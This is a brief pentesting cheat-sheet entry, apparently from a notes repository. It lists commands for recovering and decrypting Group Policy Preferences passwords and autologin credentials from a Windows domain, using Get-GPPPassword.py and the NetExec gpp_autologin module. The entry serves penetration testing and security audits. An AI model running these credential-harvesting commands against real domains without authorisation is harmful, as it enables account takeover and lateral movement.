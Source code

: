# GPPPassword and GPP Autologin

Find and decrypt Group Policy Preferences passwords.

    Get-GPPPassword.py domain.local/user1:password@<target>
    
##### Specific share

    Get-GPPPassword.py -share <share> domain.local/user1:password@<target>

##### GPP autologin

    nxc smb <target> -u user1 -p password -M gpp_autologin
